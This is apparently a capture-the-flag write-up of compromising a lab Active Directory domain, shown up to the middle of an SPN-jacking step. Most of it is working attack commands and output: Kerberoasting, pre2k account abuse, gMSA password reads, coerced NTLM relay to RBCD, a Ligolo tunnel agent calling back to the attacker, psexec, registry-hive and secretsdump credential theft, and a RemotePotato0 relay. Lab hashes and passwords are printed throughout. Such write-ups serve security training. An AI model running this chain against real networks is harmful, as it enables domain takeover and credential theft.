

**Target:** DC01 (10.129.12.119 ), WEB01 (192.168.100.2 internal)  
**Given Credentials:** `pentest / p3nt3st2025!&`  
**Flags:** user.txt (WEB01), root.txt (DC01)

## Summary
This penetration test targeted a Windows Active Directory environment consisting of a Domain Controller (DC01) and an internal web server (WEB01). Starting with low-privilege domain credentials, full domain compromise was achieved through a chain of Active Directory misconfigurations.
## Phase 1: Initial Enumeration

#### Nmap Scan
```bash
sudo nmap -sV -sC 10.129.12.119 -p- -Pn -vv -T4 
```
- Port 53 (DNS)
- Port 80/443 (IIS)
- Port 88 (Kerberos) — Domain Controller confirmed
- Port 389/636 (LDAP/LDAPS)
- Port 445 (SMB) - signing: True
- Port 5985 (WinRM)
- Port 9389 (ADCS)

adding local domain to /etc/hosts and fixing Clock-skew
```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Pirate]
└─$ cat /etc/hosts   
10.129.12.119 pirate.htb DC01.pirate.htb
```

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Pirate]
└─$ sudo ntpdate DC01.pirate.htb
[sudo] password for penguin: 
2026-03-01 05:18:38.390531 (+0000) +25212.344303 +/- 0.011833 DC01.pirate.htb 10.129.12.119 s1 no-leap
CLOCK: time stepped by 25212.344303


```

**SMB Enumeration  Valid Creds, Standard Shares**
```bash
netexec smb DC01.pirate.htb -u pentest -p 'p3nt3st2025!&' --shares
SMB         10.129.12.119   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.12.119   445    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
SMB         10.129.12.119   445    DC01             [*] Enumerated shares
SMB         10.129.12.119   445    DC01             Share           Permissions     Remark
SMB         10.129.12.119   445    DC01             -----           -----------     ------
SMB         10.129.12.119   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.12.119   445    DC01             C$                              Default share
SMB         10.129.12.119   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.12.119   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.12.119   445    DC01             SYSVOL          READ            Logon server share 

```
SYSVOL Enumeration  Nothing Useful
- Two default GPOs: `{31B2F340...}` and `{6AC1786C...}`
- `Registry.pol` contained EFS certificate for Administrator (no credentials)
- Startup/Shutdown script folders were empty

**Domain User Enumeration**
```bash
(penguin㉿0X0F)-[~/CPTS/Machines/S10/Pirate]
└─$ netexec smb DC01.pirate.htb -u pentest -p 'p3nt3st2025!&' --users
```

| **Username**        | **Role / Description**  | **Notes**                                      |
| ------------------- | ----------------------- | ---------------------------------------------- |
| **Administrator**   | Built-in Local Admin    | Target for impersonation                       |
| **Guest**           | Built-in Account        | Disabled                                       |
| **krbtgt**          | Key Distribution Center | Service account for Kerberos                   |
| **a.white_adm**     | IT Group Member         | **High Value:** Constrained Delegation enabled |
| **a.white**         | Standard User           | Pivot point for `a.white_adm` reset            |
| **pentest**         | Initial Access          | Starting credentials                           |
| **j.sparrow**       | Standard User           | Jack Sparrow                                   |
| **gMSA_ADFS_prod$** | Service Account         | gMSA for ADFS (Path to DC01)                   |
| **gMSA_ADCS_prod$** | Service Account         | gMSA for ADCS                                  |
| **WEB01$**          | Computer Account        | Target for RBCD / Internal Network             |
| **MS01$**           | Computer Account        | **Vulnerable:** Pre2k default password         |
| **EXCH01$**         | Computer Account        | Exchange Server                                |

```bash                                         
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Pirate]
└─$ ldapsearch -x -H ldap://10.129.12.119 -D 'pentest@pirate.htb' -w 'p3nt3st2025!&' -b 'DC=pirate,DC=htb' '(objectClass=user)' sAMAccountName description | grep -E "sAMAccountName|description"
# requesting: sAMAccountName description 
description: Built-in account for administering the computer/domain
sAMAccountName: Administrator
description: Built-in account for guest access to the computer/domain
sAMAccountName: Guest
sAMAccountName: DC01$
description: Key Distribution Center Service Account
sAMAccountName: krbtgt
sAMAccountName: a.white_adm
sAMAccountName: a.white
sAMAccountName: WEB01$
sAMAccountName: MS01$
sAMAccountName: EXCH01$
sAMAccountName: gMSA_ADCS_prod$
sAMAccountName: pentest
sAMAccountName: gMSA_ADFS_prod$
sAMAccountName: j.sparrow
                                                                                                         
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Pirate]
└─$ 

```

### Kerberoasting - Got Hash for a.white_adm

```bash
impacket-GetUserSPNs pirate.htb/pentest:'p3nt3st2025!&' -dc-ip 10.129.12.119 -request
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name         MemberOf                         PasswordLastSet             LastLogon                   Delegation  
--------------------  -----------  -------------------------------  --------------------------  --------------------------  -----------
ADFS/a.white          a.white_adm  CN=IT,CN=Users,DC=pirate,DC=htb  2026-01-16 00:36:34.388000  2025-06-09 17:03:37.380258  constrained 

[-] CCache file is not found. Skipping...
$krb5tgs$23$*a.white_adm$PIRATE.HTB$pirate.htb/a.white_adm*$0927d1cfad1a66aa942274442a8412ed$889c25b5a6913649dfeea7bd39402193680a4c468d286fa49d72f929cfc3fc2710feaf5d298b3b4a78d281cb2f05b674f3009a8eb1fc6e47d731442f3c499aeddaedba5db70fbdde74fa5a2c47a739779f3e4e7baae7694d2f84e2f638505a1604ffbde65440a3e28ba01798acf419e06749f3500ff04bc0c5f8dae37c5a3a358112ee3c0211b678236731127acf93c9feba51cbb4a3e017b0ac85ff35cf75df7b2e83e6827594c7df0bfda2b628ee24cf7b99752490d512579dc8e921eaa34d053b7a0b1bfca0dff3752174d08249c1056c3aee102de2c57ff828b16acc596afbc662875ac84569da63d26b14fa0aee50622af035698ad5df0c960b60f8db48afa630661002a4cfbef2296c900f44639f10ca196e75c4637f0b60f5b8e3b9e079f803e3213d6836ee92572cd622fe029d98b1c5209d974087ffdc31ae8b663e3de5dbb063a14f804b78d215ef5c56a65606732eb1d757f6cb53cd23fca6c335ef40937ac0bf95b441def4fdf7bc6979acd0dabfc3dca3b8a3a6a04cc32acc279cf4873d24797b695b72127c865f47c40d72dbc859758c6695dec8814c9abbf8944e15a6c60a7d856d3d6c9fcba0a478070c292b4e545971d7a5f46801e1947e7751808cb1813c332a423e93feec95f6c574f3126da38b2c320399768e8bf3cd17d418ef7dbeac4c79bd524791595064ab71056913b8dbfde6212b6238f804ce3a5531791c1dc4e957edd9ed505937b4bedbd2b2f25f44ca8a9519d02df035f0054c8ae5e17ad8412bdbbd6584c693c0b47334bd2d07cd88173f36786e5f0bfc7ba22878f0088a365a55ae942267fb35f017b18cb5496408ee31cc377404207ed512dd404856bc3b7f8f9815fb7f96b1ce7b1b38809ed0ca5fcb3e66c021de6a4ac7bfcb76ae330662a69de0bf89a936355663d3ff6314052382cbcf1b1b4f2f423aa1a57546db92e67150a4b983a420a3502de220c6c103fddd9551c4d4a24415e76aaffd2c2f0af8a09154d61ca4a2b613c8b277862872d7eee272c601c75c89d62d74ff0279a254d4c9c4c1cb36ccb2a78d7ad83b68aca8362a0741821dce8bfabd5f4738bef63ea220e56957609101ec4bfc07b2078823a405dee05c434e9173a286618379460c292999cff59517176666e68ffe94d0f96e37543f72c97b1f1c4705c6e529a257ce9acfdb3e2a25cca793f29161d1751a7effd462748921be767891d235f7577cc13c4252aedc238dd4a46206fabf2a8efd70b3c911ba166aaa8c3c7c2e844455b42d103942423721ff39ca2815d1e3c936e704455dd8f3ff5301a823b30104f5218c0b1d2ff8953aa01a2b4f67e0bac35da9a4571bdfefd2cbc9176f2ff61f432e37ad07732728ea8bebcd166e4f22d609ed5980031d18787b73fa809e04ee90c88ee17635298ac966e26c483e57a037955ee8e1be1e61e4563574ddeb2c9d81ae
```
**Hash cracking  FAILED** (not in rockyou.txt, )
```bash
hashcat -m 13100 a.white_adm.hash /usr/share/wordlists/rockyou.txt
```
**ASREPRoast - Nothing**
```bash
impacket-GetNPUsers pirate.htb/ -usersfile users.txt -dc-ip 10.129.12.119 -no-pass
```
**ADCS Enumeration**
```bash
certipy-ad find -u 'pentest@pirate.htb' -p 'p3nt3st2025!&' -dc-ip 10.129.12.119 -enabled -stdout
```
**Enabled templates:** ADFSSSLSigning, KerberosAuthentication, DirectoryEmailReplication, DomainControllerAuthentication, SubCA, WebServer, DomainController, Machine, EFSRecovery, Administrator, EFS, User

**ADFSSSLSigning template analysis:**
```bash
EnrolleeSuppliesSubject: True
EKU: Server Authentication only (NO Client Authentication)
Enrollment Rights: Domain Computers, Domain Controllers, Domain Admins
```
**Not exploitable**
**Shadow Credentials FAILED (Insufficient Rights)**

```bash
certipy-ad shadow auto -u 'pentest@pirate.htb' -p 'p3nt3st2025!&' -dc-ip 10.129.12.119 -account a.white_adm


certipy-ad shadow auto -u 'pentest@pirate.htb' -p 'p3nt3st2025!&' -dc-ip 10.129.12.119 -account j.sparrow
```

**BloodHound Collection**

```bash
bloodhound-python -u pentest -p 'p3nt3st2025!&' -d pirate.htb -ns 10.129.12.119 -dc DC01.pirate.htb -c all --zip
```
**Key findings from BloodHound:**

- `a.white_adm` has constrained delegation to `http/WEB01.pirate.htb` and `HTTP/WEB01`
- `a.white_adm` has WriteSPN on DC01,WEB01, WEB01 ,WEB01, MS01,EXCH01, EXCH01 ,EXCH01
- `pentest` has zero outbound ACL edges  - dead end
## Phase 2: Pre2k Attack — Gaining gMSA Access

**What is a Pre-Windows 2000 (Pre2k) Attack?**

When Windows administrators create computer accounts in Active Directory, they have an option called **"Assign this computer account as a pre-Windows 2000 computer"**. This is a legacy compatibility option that sets a predictable default password.

**The vulnerability:**
- When this option is enabled, the computer account's initial password is set to the **lowercase computer name** (without the `$`)
- For example: `MS01$` has password `ms01`
- This password should be changed when the actual computer joins the domain, but if the computer **never joins** (pre-created but unused), the default password remains

The `nxc ldap  -M pre2k` module automatically:
1. Finds computer accounts with the `PASSWD_NOTREQD` flag or pre-2000 compatible settings
2. Attempts authentication with the lowercase computer name as password
3. Requests a TGT (Kerberos ticket) if successful


```bash
(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/Pachine]
└─$ # Using NetExec (formerly CrackMapExec)
nxc ldap 10.129.12.119 -u 'pentest' -p 'p3nt3st2025!&' -M pre2k
LDAP        10.129.12.119   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never)
LDAP        10.129.12.119   389    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
PRE2K       10.129.12.119   389    DC01             Pre-created computer account: MS01$
PRE2K       10.129.12.119   389    DC01             Pre-created computer account: EXCH01$
PRE2K       10.129.12.119   389    DC01             [+] Found 2 pre-created computer accounts. Saved to /home/penguin/.nxc/modules/pre2k/pirate.htb/precreated_computers.txt
PRE2K       10.129.12.119   389    DC01             [+] Successfully obtained TGT for ms01@pirate.htb
PRE2K       10.129.12.119   389    DC01             [+] Successfully obtained TGT for exch01@pirate.htb
PRE2K       10.129.12.119   389    DC01             [+] Successfully obtained TGT for 2 pre-created computer accounts. Saved to /home/penguin/.nxc/modules/pre2k/ccache

```
**MS01$ has default password `ms01`**  pre-created computer account not properly secured.

**What is a gMSA (Group Managed Service Account)?**
A gMSA is a special type of Active Directory account designed for services. Key features:
- Password is 240+ characters, randomly generated
- Password rotates automatically (default: every 30 days)
- Only **authorized principals** can read the password via the `msDS-ManagedPassword` attribute
- 
**The misconfiguration we exploited:**
When administrators set up gMSA accounts, they specify which computers/users can retrieve the password using the `PrincipalsAllowedToRetrieveManagedPassword` attribute.

```
gMSA_ADFS_prod$ → MS01$ is authorized to read password
gMSA_ADCS_prod$ → MS01$ is authorized to read password
```

Reading gMSA Password via MS01$

```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/gMSADumper]
└─$ # Ensure ticket is still exported
export KRB5CCNAME=/home/penguin/.nxc/modules/pre2k/ccache/ms01.ccache

# Run with the FQDN
bloodyAD --host DC01.pirate.htb -d pirate.htb -k get object 'gMSA_ADCS_prod$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA_ADCS_prod,CN=Managed Service Accounts,DC=pirate,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:304106f739822ea2ad8ebe23f802d078
msDS-ManagedPassword.B64ENCODED: M8C6ZAJoQPQLbTj+MF9geopZFJjJO72aYGNQbSW2C/6IzzAHwf8Xf49xndwm6IX6hqJFPh7e0BB4l8b9cWlCqEbIVH01+UTbu1z1TpxEOPKJWbiYblXqK2FXoQw0T7yeMat3uJj2rxw0OREs60j0IbOrscxn0XBNNp14wRGD7RLsf1OkSKYCgopdti8OevooDDWzP9/04qAmO9LSTTd9abCZaILI8RoG1WueN3rF6XwB+8Ja9VbM5OhUE4wjgwQPQrIkZcgHe1rH78o086HPrjZQwo6QIvc/fIaqqBbbMiu+ZS/GegJdTafz1Uo2Pgr6HyM2b2ZLyjixu/uRZzagcw==


```

```bash
(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/gMSADumper]
└─$ export KRB5CCNAME=/home/penguin/.nxc/modules/pre2k/ccache/ms01.ccache
bloodyAD --host DC01.pirate.htb -d pirate.htb -k get object 'gMSA_ADFS_prod$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA_ADFS_prod,CN=Managed Service Accounts,DC=pirate,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:8126756fb2e69697bfcb04816e685839
msDS-ManagedPassword.B64ENCODED: h2KeYRBiSsZYlHDF10ooHekkrIByOtjzSyziwnGrfYdTQgQNyymRcf7m4RHRp3mjEz2Z25X3y7pRe6M5LHpay0+IQLGj5ErzfOdKx94l3Qw3r/DJsc1c9kAN/PAFLry4qTTnfkXhmHQTVQHlTuyxfGs2wkg12x1f8wAJNuxJw8PxRrtrcwhnZRCSm7lJf0vXtnE7u929blGzlD39g4lmKUKlnm4EYtgxlabuDVP0+iw1CowpkUX4SXfvttnq4+vudQEpdWcCzoAElN3rN5NuU6ksW1JHZ75+BtO0B6wmXIarMESM7g64RoyQkCtK1b+i5o6B6zyUXSoRO79y4+rXaA==
```
**Credentials obtained**
- `gMSA_ADFS_prod$` : `8126756fb2e69697bfcb04816e685839`
- `gMSA_ADCS_prod$` : `304106f739822ea2ad8ebe23f802d078`

#### **WinRM Access to DC01 via gMSA_ADFS_prod$**

Successfully we can **access winrm**
```bash
penguin㉿0X0F)-[~/…/Machines/S10/Pirate/gMSADumper]
└─$ nxc winrm 10.129.12.119 -u gMSA_ADFS_prod$ -H 8126756fb2e69697bfcb04816e685839
WINRM       10.129.12.119   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.12.119   5985   DC01             [+] pirate.htb\gMSA_ADFS_prod$:8126756fb2e69697bfcb04816e685839 (Pwn3d!)
```

```bash
evil-winrm -i 10.129.12.119 -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839'
```
---

## Phase 3: Internal Network Discovery & Ligolo Tunnel

Discovering WEB01 Internal IP
```Powershell
Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents> ipconfig

Windows IP Configuration


Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::d976:c606:587e:f1e1%8
   IPv4 Address. . . . . . . . . . . : 192.168.100.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv4 Address. . . . . . . . . . . : 10.129.13.154
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1

```

**Establishing Ligolo-ng Tunnel**
**(Terminal-1 )**

```bash
┌──(penguin㉿0X0F)-[~/Downloads]
└─$ sudo ip tuntap add user penguin mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 192.168.100.0/24 dev ligolo
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
```

**Victim (DC01 WinRM shell):**
**(Terminal 2)**

```powershell
.\agent.exe -connect 10.10.16.33:11601 -ignore-cert
```

**Verify tunnel:**

```bash
┌──(penguin㉿0X0F)-[/home]
└─$ ping -c 3 192.168.100.2
PING 192.168.100.2 (192.168.100.2) 56(84) bytes of data.
64 bytes from 192.168.100.2: icmp_seq=1 ttl=64 time=92.2 ms
64 bytes from 192.168.100.2: icmp_seq=2 ttl=64 time=95.1 ms
64 bytes from 192.168.100.2: icmp_seq=3 ttl=64 time=85.9 ms

--- 192.168.100.2 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 85.898/91.054/95.059/3.827 ms
```

```bash
┌──(penguin㉿0X0F)-[/home]
└─$ nxc smb 192.168.100.2 -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839'

SMB         192.168.100.2   445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         192.168.100.2   445    WEB01            [+] pirate.htb\gMSA_ADFS_prod$:8126756fb2e69697bfcb04816e685839  
```

Nothing specific on the share

## Phase 4: Creating EVIL$ Machine Account

```bash
impacket-addcomputer pirate.htb/pentest:'p3nt3st2025!&' -computer-name 'EVIL$' -computer-pass 'Evil1234!' -dc-ip 10.129.12.119

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account EVIL$ with password Evil1234!.

```

## Phase 5: Coerce WEB01 + NTLM Relay → RBCD on WEB01$

##### What is Resource-Based Constrained Delegation (RBCD)?
Delegation allows a service to impersonate a user to access other services. For example:
- User authenticates to Web Server
- Web Server needs to access SQL Server _as the user_
- Delegation allows this "double hop
Three types of delegation
- **Unconstrained** - Can impersonate to ANY service (very dangerous)
- **Constrained** - Can impersonate to SPECIFIC services (configured on the delegating account)
- **Resource-Based Constrained (RBCD)** -The TARGET service controls who can delegate to it


**Setup ntlmrelayx 
(Terminal 1)**
```bash
sudo impacket-ntlmrelayx -t ldaps://10.129.13.154 --delegate-access --escalate-user 'EVIL$' -smb2support --no-rpc-server --remove-mic
```

`--remove-mic` is required to bypass SMB signing when relaying SMB→LDAPS

**Coerce WEB01 Authentication 
(Terminal 2)**
```bash
nxc smb 192.168.100.2 -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839' -M coerce_plus -o LISTENER=10.10.16.33
MB         192.168.100.2   445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         192.168.100.2   445    WEB01            [+] pirate.htb\gMSA_ADFS_prod$:8126756fb2e69697bfcb04816e685839
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PetitPotam
COERCE_PLUS 192.168.100.2   445    WEB01            Exploit Success, efsrpc\EfsRpcAddUsersToFile
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PrinterBug
[04:57:59] ERROR    Error in PrinterBug module: Error while reading from remote          coerce_plus.py:178
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PrinterBug
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, MSEven
[04:59:02] ERROR    Error in MSEven module: Error while reading from remote              coerce_plus.py:209

```

First attempt without `--remove-mic` failed: "The client requested signing. Relaying to LDAP will not work!"

MIC is a security feature in NTLM that prevents relay attacks:
- The MIC is a signature over the entire NTLM authentication exchange
- It includes a flag indicating the client's security capabilities
- If the server checks MIC, it can detect if the authentication was relayed


## Phase 6: Exploit RBCD → WEB01 Administrator Shell

```bash
impacket-getST -spn 'cifs/WEB01.pirate.htb' -impersonate Administrator -dc-ip 10.129.13.154 pirate.htb/'EVIL$':'Evil1234!'

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

This performs:
1. **S4U2self**  - EVIL$ gets a ticket to itself on behalf of Administrator
2. **S4U2proxy** - EVIL$ exchanges this for a ticket to WEB01 as Administrator
**Result:** A valid Kerberos ticket to access WEB01's CIFS (file share) service as Administrator
**Access WEB01 as Administrator**

```bash
export KRB5CCNAME=$(pwd)/Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ impacket-psexec -k -no-pass -dc-ip 10.129.13.154 -target-ip 192.168.100.2 administrator@WEB01.pirate.htb

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.100.2.....
[*] Found writable share ADMIN$
[*] Uploading file WTouHCqa.exe
[*] Opening SVCManager on 192.168.100.2.....
[*] Creating service tFCS on 192.168.100.2.....
[*] Starting service tFCS.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8385]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> type C:\Users\a.white\Desktop\user.txt
b5a4f524e1c9c61a0e9041bc1b595d35
```
`-target-ip 192.168.100.2` was essential to route through ligolo tunnel, and DNS in `/etc/hosts` with `192.168.100.2 WEB01.pirate.htb` was required.

#### Dump LSA Secrets from WEB01

```Powershell
C:\WINDOWS\system32> reg save HKLM\SAM C:\Windows\Temp\sam.save
The operation completed successfully.
C:\WINDOWS\system32> reg save HKLM\SYSTEM C:\Windows\Temp\system.save
The operation completed successfully.
C:\WINDOWS\system32> 
C:\WINDOWS\system32> reg save HKLM\SECURITY C:\Windows\Temp\security.save /y
The operation completed successfully.
C:\WINDOWS\system32> 

```

**Attacker Terminal 2**
```bash

export KRB5CCNAME=$(pwd)/Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache

```

```bash
impacket-secretsdump -k -no-pass -dc-ip 10.129.13.154 -target-ip 192.168.100.2 administrator@WEB01.pirate.htb

```
It does take 5-10 minute dump the hashes and crendentials


**a.white credentials: `E2nvAOKSz5Xz2MJu`**
## Phase 8: Reset a.white_adm Password

Using a.white's credentials to reset a.white_adm (a.white has password reset rights over their admin account):


```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ bloodyAD --host 10.129.13.154 -d pirate.htb -u a.white -p 'E2nvAOKSz5Xz2MJu' set password 'a.white_adm' 'NewPass123!'

[+] Password changed successfully!

```

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ nxc smb 10.129.13.154 -u a.white_adm -p 'NewPass123!'

SMB         10.129.13.154   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.13.154   445    DC01             [+] pirate.htb\a.white_adm:NewPass123! 

```
**a.white_adm credentials: `NewPass123!`**

#### **Alternative path used earlier (RemotePotato0 NTLM relay):**

##### Terminal 1  ntlmrelayx interactive LDAP shell
```Powershell
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$.PIRATE\Documents> .\RemotePotato0.exe -m 0 -r 10.10.16.33 -t 8888 -x 10.10.16.33 -p 9999 -s 1


[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on 10.10.16.33 to your victim machine on port 9999
[*] Example Network redirector:
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9999
[*] Starting the NTLM relay attack, launch ntlmrelayx on 10.10.16.33!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] IStoragetrigger written: 104 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to ntlmrelayx HTTP Server 10.10.16.33 on port 8888
[*] Connected to RPC Server 127.0.0.1 on port 9999
[+] Got NTLM type 3 AUTH message from PIRATE\a.white with hostname WEB01
[+] Relaying seems successfull, check ntlmrelayx output!
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$.PIRATE\Documents> 
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$.PIRATE\Documents> 
```
#### Terminal 3 RemotePotato0 on WEB01 (where a.white has active session 1)
```bash
─(oldimpacket)─(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/gMSADumper]
└─$ sudo impacket-ntlmrelayx -t ldaps://10.129.13.65 --http-port 8888 --remove-mic -i --no-rpc-server
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client WINRMS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 8888
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] (HTTP): Client requested path: /
[*] (HTTP): Connection from 10.129.13.65 controlled, attacking target ldaps://10.129.13.65
[*] (HTTP): Client requested path: /
[*] (HTTP): Authenticating connection from PIRATE/A.WHITE@10.129.13.65 against ldaps://10.129.13.65 SUCCEED [1]
[*] ldaps://PIRATE/A.WHITE@10.129.13.65 [1] -> Started interactive Ldap shell via TCP on 127.0.0.1:11000 as PIRATE/A.WHITE


```
#### Terminal 2 socat port forwarder
```bash
  
┌──(oldimpacket)─(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/gMSADumper]
└─$ sudo pkill -f socat
sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.100.2:9999


```
#### Terminal 4 LDAP interactive shell
```bash

 nc 127.0.0.1 11000
Type help for list of commands

# change_password a.white_adm NewPass123!
Got User DN: CN=Angela W. ADM,CN=Users,DC=pirate,DC=htb
Attempting to set new password of: NewPass123!
Password changed successfully!

```
change_password a.white_adm NewPass123!

### Phase 9: SPN-Jacking + Constrained Delegation → Domain Admin

**What is an SPN?**
An SPN is a unique identifier for a service instance.

**How Kerberos uses SPNs:**
When a client wants to access a service:
1. Client asks DC: "Give me a ticket for HTTP/WEB01"
2. DC looks up: "Which account has HTTP/WEB01 registered?"
3. DC finds WEB01$ has this SPN
4. DC encrypts the ticket with WEB01$'s secret key
5. Client presents ticket to WEB01


**Understanding the Attack**
- `a.white_adm` has **constrained delegation** to `http/WEB01.pirate.htb` and `HTTP/WEB01`
- `a.white_adm` has **WriteSPN** on WEB01$
- `a.white_adm` has **WriteSPN** on DC01$
- **SPN-jacking**: Remove `HTTP/WEB01` from WEB01,addittoDC01, add it to DC01 ,addittoDC01 → delegation ticket is now issued for DC01

#### Step 1 - Check Current SPNs

```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'NewPass123!' -t 'WEB01$' -q ldap://10.129.13.154 | grep -i http

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
                          HTTP/WEB01
                          HTTP/WEB01.pirate.htb

```

```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'NewPass123!' -t 'DC01$' -q ldap://10.129.13.154 | grep -i http 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target

```
 (nothing  DC01$ doesn't have HTTP/WEB01 yet)
**What is Constrained Delegation?**
a.white_adm's delegation configuration:
```bash
Allowed to delegate to: - HTTP/WEB01.pirate.htb - HTTP/WEB01
```
This means:
- a.white_adm can impersonate ANY user to the HTTP service on WEB01
- When a.white_adm requests an S4U2proxy ticket for HTTP/WEB01, the DC grants it

#### Step 2 - Remove HTTP/WEB01 from WEB01$
Since a.white_adm has `WriteSPN` permission on both WEB01$ and DC01$, we can:
1. Remove `HTTP/WEB01` from WEB01$
2. Add `HTTP/WEB01` to DC01$
